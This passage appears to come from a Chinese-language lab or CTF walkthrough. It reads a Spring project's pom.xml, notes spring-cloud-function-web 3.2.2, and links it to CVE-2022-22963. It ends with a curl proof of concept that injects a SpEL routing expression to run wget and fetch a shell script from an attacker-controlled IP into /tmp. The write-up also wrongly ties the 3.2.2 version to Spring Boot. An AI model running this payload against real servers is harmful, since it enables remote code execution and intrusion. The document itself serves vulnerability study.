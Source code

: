   ```
                </dependency>

                <dependency>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-devtools</artifactId>
                        <scope>runtime</scope>
                        <optional>true</optional>
                </dependency>

                <dependency>
                        <groupId>org.springframework.cloud</groupId>
                        <artifactId>spring-cloud-function-web</artifactId>
                        <version>3.2.2</version>
                </dependency>
                <dependency>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-test</artifactId>
                        <scope>test</scope>
                </dependency>
                <dependency>
                        <groupId>org.webjars</groupId>
                        <artifactId>bootstrap</artifactId>
                        <version>5.1.3</version>
                </dependency>
                <dependency>
                        <groupId>org.webjars</groupId>
                        <artifactId>webjars-locator-core</artifactId>
                </dependency>

        </dependencies>
        <build>
                <plugins>
                        <plugin>
                                <groupId>org.springframework.boot</groupId>
                                <artifactId>spring-boot-maven-plugin</artifactId>
                                <version>${parent.version}</version>
                        </plugin>
                </plugins>
                <finalName>spring-webapp</finalName>
        </build>

</project>
```

可以发现使用了3.2.2版本的springframework.boot

存在 相关 [CVE-2022-22963](https://kalilinuxtutorials.com/cve-2022-22963/) 漏洞

> ###### 恶意 Spring Expression 在 Spring Cloud Function 中远程执行代码

poc

```shell
 curl -X POST  http://$IP:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget $YOUR_IP -O /tmp/shell.sh ")' --data-raw 'data' -vva
```
